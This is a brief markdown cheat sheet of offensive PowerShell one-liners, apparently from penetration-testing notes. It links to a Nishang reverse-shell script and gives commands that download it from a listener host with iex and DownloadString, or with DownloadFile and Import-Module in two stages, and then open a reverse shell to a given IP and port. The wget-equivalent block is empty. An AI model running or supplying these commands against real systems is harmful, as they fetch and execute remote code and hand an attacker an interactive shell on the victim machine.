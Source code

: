 # powershell

- Powershell equivalent of `wget`

```powershell
```

- Powershell reverse shell can be found at [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Connect to listener using

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $ip -Port 1234
```

Or the same but in stages

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$ip:8888/rev.ps1')
powershell Import-Module ./rev.ps1; Invoke-PowershellTcp -Reverse -IPAddress $ip -Port 1234
```